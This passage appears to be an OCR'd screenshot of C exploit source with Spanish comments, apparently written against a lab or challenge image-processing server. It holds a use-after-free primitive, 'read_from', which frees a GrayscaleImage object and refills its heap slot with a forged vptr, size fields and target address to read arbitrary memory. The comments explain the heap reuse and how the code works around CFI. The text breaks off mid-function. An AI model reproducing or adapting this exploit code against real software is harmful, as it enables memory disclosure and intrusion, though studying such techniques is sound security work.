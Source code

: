 ```c

  int handle = make_grayscale_image(h, w, (unsigned char*)&data);

  uint8_t *out_buffer;
  get_grayscale_image_bytes(handle, &out_buffer, &w, &h);

  memcpy(response_buffer, out_buffer, t);

  free(out_buffer);
  return handle;
}

//==============================================================================
// read_from
//------------------------------------------------------------------------------

void read_from(
    uint64_t target_address,
    uint16_t count,
    uint64_t vptr_GrayscaleImage,
    int uaf_handle) {

  /* Liberamos el handle. Debe ser tal que la próxima reserva por un bloque
   * de 0x18 bytes sea efectivamente designada a la dirección del objeto
   * que estamos liberando. Es por esto que el exploit asume un servidor en 
   * estado inicial; para hacer al exploit funcionar en el caso general, 
   * sería necesario asegurarse de que la próxima solicitud por un bloque
   * de 0x18 bytes devuelva efectivamente aquel perteneciente al objeto
   * identificado por uaf_handle.
   *
   */
  free_grayscale_image(uaf_handle);
    
  /* Del lado del servidor, width y height se almacenan contiguos
   * como enteros de 2 bytes. En la línea de 8 bytes, los 4 más bajos
   * son nulos. La siguiente operación construye una secuencia de 8
   * bytes tal que, al reemplazar los datos del objeto GrayscaleImage,
   * width sea igual a count y height sea igual a 1, con lo cuál el
   * producto será igual a count, permitiéndonos leer count bytes.
   *
   */
  uint64_t c = (((uint64_t)count) << 16) + 1;

  /* La siguiente secuencia de 18 bytes sobrescribirá los datos del
   * objeto GrayscaleImage que hemos liberado. En otro caso, controlar 
   * el vptr nos daría probablemente mucha flexibilidad. Debido a CFI, 
   * sin embargo, para este exploit nos debemos limitar a trabajar solo
   * con operaciones legales sobre el objeto, si bien podemos modificar
   * sus atributos para controlar esas operaciones como nos resulte
   * conveniente.
   *
   */
  uint64_t input[] = {
    vptr_GrayscaleImage, // vptr
    c,                   // 0x00000000 | width (2 bytes) | height (2 bytes)
    target_address
  };

  /* Creamos una nueva imagen del lado del servidor. La cantidad de bytes
   * es para que la escritura del primer buffer se de precisamente a partir
   * de lo que antes era el objeto GrayscaleImage en sí.
   *
   */
```
